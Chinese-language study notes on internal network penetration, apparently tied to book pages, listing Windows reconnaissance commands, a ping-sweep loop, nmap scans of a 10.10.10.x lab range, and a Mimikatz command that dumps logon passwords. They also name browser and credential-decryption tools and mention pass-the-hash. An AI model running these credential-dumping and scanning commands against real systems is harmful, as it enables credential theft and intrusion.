# 内网渗透体系建设 笔记

`ipconfig /all`

`ipconfig /all`

`route print`

```
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" ＃查看操作系统及版本
systeminfo | findstr /B /C:"OS 名称“/C:"OS 版本＂ ＃查看操作系统及版本
```

`netstat -ano`

当前会话：`net session`



`net use` 已建立的网络共享

`tasklist`,  `tasklist /SVC`


`wmic process get Name, Processid, ExecutablePath` 获得更详细的信息


`wmic qfe get Caption, CSName, Description, HotFixID, InstalledOn`



net



`query user` 查看当前登录的用户





注意，只有域用户才有权限执行域内查询操作。而计算机本地用户除非提升为本地系统权限，否则只能查询本机信息，无法查询域内信息并提示“拒绝访问＂。这是因为，在域环境中，所有与域有关的查询都需要通过域控制器来实现，并且需要经过Kerberos协议进行认证。



### 查找存活主机：

基于ICMP协议发现存活主机：

```
for /L %I in (1,1,254) DO @ping -w 1 -n 1 10.10.10.%I | findstr "TTL="
```

基于NetBIOS：

nbtscan.exe 工具

基于UDP：

`unicornscan -mU 10.10.10.0/24`

基于ARP：

P63

#### nmap

```
nmap -p 80,88,135,139,443,8080,3306,3389 10.10.10.11
```

nmap 扫描所有开放的端口
```
nmap -sS -p 1-65535 10.10.10.11
```

扫描并获取服务版本：

```
nmap -sC -sV -p 80,88,135,139,443,8080,3306,3389 10.10.10.11
```

#### MSF



## 用户凭据收集

Mimikatz

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
# privilege::debug, 用于提升至DebugPrivilege权限，sekurlsa::logonpasswords, 用于导出用户凭据
```







SharpDecryptPwd.exe

HackBrowserData

多层代理：P100


WES-NG：P106




哈希传递攻击 P182